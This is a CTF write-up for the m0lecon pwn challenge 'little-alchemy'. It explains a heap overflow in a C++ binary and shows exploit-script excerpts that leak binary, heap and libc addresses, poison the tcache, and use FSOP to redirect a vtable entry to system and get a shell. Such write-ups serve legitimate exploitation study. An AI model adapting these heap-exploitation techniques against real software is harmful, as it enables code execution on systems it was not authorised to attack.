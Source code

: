 # little-alchemy

## TLDR
* Heap overflow
* Tcache poisoning
* FSOP

## Challenge
### Description
result of file command
* Arch    : x86-64
* Library : Dynamically linked
* Symbol  : Not Stripped

result of checksec
* RELRO  : Partial RELRO
* Canary : Disable
* NX     : Enable
* PIE    : Enable 

libc version: 2.31(not distributed)

The challenge binary is written by C++.  
I'm not good at reversing binaries of this lang.  
So I found the vulnerability mainly by dynamic analysis.  

Even though we don't have to get a shell to solve this chal, I finally got a shall.  
I noticed that after solving the challenge :(  
We should read the discription of challenges before solving.  

:description
```
Note: the flag is inside the binary, and clearly it is different on the remote server.
```

Through dynamic analysis, I found that we can allocate chunks whose size is 0x30 or 0x50.  
The former is made by command 1 with index (-1, -1), another is index(-1, -2).  

### Exploit 
"2. Edit" command has a vulnerability of overflow.  
So we can overwrite memory on heap freely.  

My exploit code is [solve.py](https://github.com/kam1tsur3/2021_CTF/blob/master/m0lecon/pwn/little_alchemy/solve.py).  
I'll use this to show how to exploit.

Let's begin.  

#### leak addresses   

We want some kind of chunks to get addresses of memory.   

1. chunks not freed for leaking address of binary  
In this binary, an address of .data section is stored at the top of allocated chunks([chunk+0x0]). And editable string is stored which begin at [chunk+0x18].  
So, we make two chunks in contiguous location, and trigger overflow with edit command against the former chunk. We can get the address of .data secion with show command.  
One thing to keep in mind, edit command can trigger overflow, but it ends with null byte.  
In order to leak, we have to prepare some bytes at other location, and then copy them to target location.  
With copy command, we can edit memory without null byte.

In my exploit, this part is relevant.
```
...
	# leak binary addres
	payload = b"0"*0x17+b"X"
	edit(4,payload)
	copy(4,0)
	show_one(0) 					# leak 
	conn.recvuntil("0X")
	bin_base = conn.recvline()[:-1] 
	bin_base = u64(bin_base+b'\x00'*(8-len(bin_base))) - 0x5d78
	got_strlen = bin_base + off_got_strlen
	
	# leak heap addres part
	copy(4,6)
	show_one(6)						# leak
	conn.recvuntil("0X") 			
	heap_base = conn.recvline()[:-1] 
	first_chunk = u64(heap_base+b'\x00'*(8-len(heap_base))) - 0x6d110 + 0x6cea0
...
```
2. chunks linked to tacahe for leaking address of heap  
Same as the previous example, we can get the address of heap.  
We only have to link the letter chunk of two chunks in contiguous location.  

3. chunks linked to unsorted bin for leaking address of libc  
To get this one, we allocate enough size of memory avoiding freed chunks are reused.  

In my exploit, this part is relevant.
```
...
	get_x30_chk(0)
	get_x30_chk(1)
	
	payload = b"A"*0x10
	payload += p64(0x131) # 0x31 -> 0x131
	for i in range(2, 9):
		get_x50_chk(i)
		edit(i-1, payload[:-1]) # overwrite size not to be reused
		get_x30_chk(i)
	get_x50_chk(2)
	get_x50_chk(3)
	get_x50_chk(4)
	get_x50_chk(5)
...
...
...
	# link fake chunk to unsorted bin
	payload = b"A"*0x10
	payload += p64(0x451) 			# overwrite chunk size 0x31->0x451
	edit(0,payload[:-1])
	
	# leak libc address
	get_x50_chk(8)

	edit(4, "A"*0x17+"X")
	delete(1)						# linked to unsorted bin
	copy(4,0)
	show_one(0)						# leak address of unsorted bin in libc
	conn.recvuntil("AX")
...
```
Then overwrite chunk size into 0x451 which linked to unsorted bin, not to tcache.  
Same as 1 & 2, we can get the address of libc with show command.

We are not distributed libc file, so I guess the version of libc from unsorted bin address. 
But actually I think it is bad approach.

#### tcache poisoning 
We have the address of binary, heap and libc.  
So Let's start exploit.  
In this time, we can't use _free_hook and  one_gadget RCE to get a shell, So I used FSOP exploit.  
Now we can write heap area freely, it is easy for us to use tcache poisoning.  
I want to overwrite _IO_list_all and a vtable entry.  
So link the addresses which are close to them to tcache.

In my exploit, this part is
```
...
	# tcache poisoning
	payload = b"D"*0x60
	payload += p64(0x31)
	payload += p64(libc_vtable-0x10) # link [_IO_file_jumps-0x10] to tcache(0x30)
	
	edit(7, payload)
	
	get_x30_chk(2)
	get_x30_chk(3)
	
	payload = p64(libc_system)
	edit(3, payload)				# write libc_system at [_IO_file_jumps+8]
	
	payload = b"B"*0x68
	payload += p64(libc_io_list-0x18) 	# link [_IO_list_all-0x18] to tcache(0x50)
	edit(2, payload)				
	
	get_x50_chk(6)
	get_x50_chk(7)
...
```

#### FSOP
If you don't know FSOP well, I think [this site](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique) is helpful(and [another](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique)).  
Not to make program failed, we have to satisfy some condition.
* vtable check  
fp->vtable must be in _IO_vtables section.  
So we set fake_fp->vtable = (_IO_file_jumps-0x10), and [_IO_file_jumps+0x8] = libc_system(because the offset of io_overflow in vtable is 0x18).
* call _IO_OVERFLOW  
1. fp->_mode <= 0
2. fp->_IO_write_ptr > fp->_IO_write_base

Then, call exit() with exit command, get a shell.
```
$ls
PoW.py    entrypoint.sh  littleAlchemy
```
But, where is flag???  
oh, it is in binary.  Type 'strings ./littleAlchemy'.

## Reference
FSOP
* https://ctf-wiki.org/pwn/linux/io_file/fsop/
* https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique

twitter: @kam1tsur3
